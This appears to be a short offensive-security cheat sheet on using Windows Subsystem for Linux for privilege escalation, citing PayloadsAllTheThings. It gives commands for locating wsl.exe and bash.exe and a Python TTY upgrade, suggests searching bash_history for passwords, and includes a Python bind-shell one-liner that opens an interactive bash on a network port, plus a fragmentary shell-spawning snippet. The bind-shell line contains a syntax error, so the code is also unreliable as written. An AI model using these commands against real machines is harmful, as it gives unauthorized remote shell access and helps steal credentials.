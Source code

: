 # Windows Subsystem for Linux



[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md#eop---windows-subsystem-for-linux-wsl)

- With root privs, WSL allows users to create a bind shell on any port

- look for bash.exe, wsl.exe

```
wsl whoami
```

```
bash.exe whoami
```

- Elevate to TTY

```
python -c "import pty;pty.spawn('/bin/bash')"
```

- Look for Linux Priv esc stuff that might apply
  - bash_history for passwords etc



- Bind shell

```
wsl python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((''.23));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/bash");s.close()

```

